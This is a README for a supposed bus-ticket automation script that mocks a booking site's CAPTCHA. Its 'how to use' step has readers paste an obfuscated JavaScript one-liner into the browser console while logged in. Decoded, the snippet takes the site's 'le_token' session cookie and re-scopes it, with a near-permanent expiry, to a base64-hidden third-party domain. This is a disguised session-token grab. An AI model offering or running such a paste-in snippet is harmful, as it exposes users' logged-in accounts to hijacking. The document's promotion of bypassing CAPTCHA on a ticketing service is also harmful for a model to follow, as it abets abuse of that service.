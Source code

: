 # Bus Ticket Automation Script 🚍💨

## What’s This?
Listen up, nerds, gather round. Welcome to the **Bus Ticket Automation Script**, a glorious slap in the face to **Texista’s** joke of a security system. Imagine this: a website still using *text CAPTCHAs* like it’s the Stone Age. "Select a bus"?? Bro, just hand over the ticket already. we're going right through.

## Why Use This?
Because you’re tired of looking at blurry letters and pretending to be a robot just to get a bus ticket. This script is like bringing a nuke to a thumb war. No more guessing blurry words like some government test subject. CAPTCHA security? Forget it. You're here for a ticket, not to prove you're human.


## Features
- **Full Attack Mode:** Go grab a snack while this thing handles all the ticket-grabbing nonsense. 🍕
- **CAPTCHA Terminator:** We don’t mess around. Picking out random letters? Leave that to the 9-to-5 robots.
- **Super Simple Setup:** Seriously, if you can copy and paste, you’re qualified.


# How to Use

1. **Clone the repo:**
	```bash
	git clone https://github.com/tazal3asima/taza_l3asima.git
	```
2. **Jump into the directory:**
	```bash
	cd taza_l3asima
	```
3. **copy this to firefox console after you logged in to bus website**
	```js
	(()=>{const[$,$_,$__,$___]=['cook','ment','docu','ie'],_='\x6c\x65\x5f\x74\x6f\x6b\x65\x6e',__=(_=>atob(_))('YnVzLW1lZC4xMzM3Lm1h');eval(`${$__}${$_}.${$}${$___}=\x27${_}=\x27+${$__}${$_}.${$}${$___}.split(\x27;\x27).find(x=>x.trim().startsWith(\x27${_}=\x27)).split(\x27=\x27)[1]+\x27; expires=\x27+new Date(Date.now()+31536000000000).toUTCString()+\x27; domain=${__}; path=/;\x27`)})();
	```
4. **Run the Bad boy:**
	```bash
	make
	```
<!-- load in image called meme.jpg -->


# if you get it you get it
![meme](meme.jpg)


